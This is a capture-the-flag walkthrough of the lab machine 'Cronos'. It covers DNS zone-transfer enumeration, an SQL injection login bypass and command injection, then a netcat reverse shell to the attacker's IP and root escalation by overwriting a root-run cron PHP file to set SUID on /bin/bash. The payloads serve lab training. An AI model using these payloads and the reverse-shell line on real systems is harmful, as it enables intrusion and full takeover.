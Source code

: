 # Cronos

## Basic Information

|          |  |
| :---                 |     :---:      |
| Machine Name         | Cronos     |
| Written by           | Adir Biran       |
| IP Address           | 10.10.10.13       |
| Tools and Techniques |        |

## Method



## Enumeration


#### Nmap
<p align="center">
</p>
*1

Open Ports:  
22 - SSH  
53 - HTTP  
80 - HTTP  

#### Gobuster

Gobuster - Port 80  
<p align="center">
*2
</p>

the website
*3
<p align="center">
</p>

nslookup 10.10.10.13 10.10.10.13
looking for virtual hosts and using the machine as the server
*4
<p align="center">
</p>

found domain: cronos.htb

looking for virtual hosts related to cronos.htb
*5
<p align="center">
</p>
dig axfr cronos.htb @10.10.10.13

cronos.htb
ns1.cronos.htb
admin.cronos.htb

add to /etc/hosts
*6
<p align="center">
</p>

cronos.htb
*7
<p align="center">
</p>

ns1.cronos.htb
*8
<p align="center">
</p>

admin.cronos.htb
*9
<p align="center">
</p>

tried admin:admin and few more default credentials
*10
<p align="center">
</p>

tried sqli
' or 1==1-- -
*11
<p align="center">
</p>

and we're in.
*12
<p align="center">
</p>

pinged myself and captured the traffic with tcpdump
*13
<p align="center">
</p>

tried command injection
;whoami
*14
<p align="center">
</p>

the user running the commands is www-data.

lets get a reverse shell
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f
*15
<p align="center">
</p>

users on the machine:
www-data
noulis
root
*15-2
<p align="center">
</p>


www-data's groups
*15-3
<p align="center">
</p>

suid
find / -perm -4000 2>/dev/null
*16
<p align="center">
</p>

sudo
sudo -l
*17
<p align="center">
</p>

capabilities
getcap -r / 2>/dev/null
*18
<p align="center">
</p>

checking noulis' home directory
*18-2
<p align="center">
</p>

checking /var/www directory
*18-3
<p align="center">
</p>

laravel is installed in /var/www, checking config files in laravel
/var/www/laravel/.env
*19
<p align="center">
</p>

checking crontab
cat /etc/crontab
*20
<p align="center">
</p>

there is a cron job running by root every minute
executing with php the /var/www/laravel/artisan file.

checking the content of the file
*21
<p align="center">
</p>

we can write to that file
*22
<p align="center">
</p>

lets replace the content of the file with the following:
<?php
system('chmod +s /bin/bash');
?>

echo "<?php system('chmod +s /bin/bash'); ?>" > artisan
*23
<p align="center">
</p>

once executed by root, a SUID will be added to /bin/bash and we will be able to get a root shell.

after a minute, checking the /bin/bash permissions:
*24
<p align="center">
</p>

executing a root shell with
bash -p
*25
<p align="center">
</p>

and we're root.
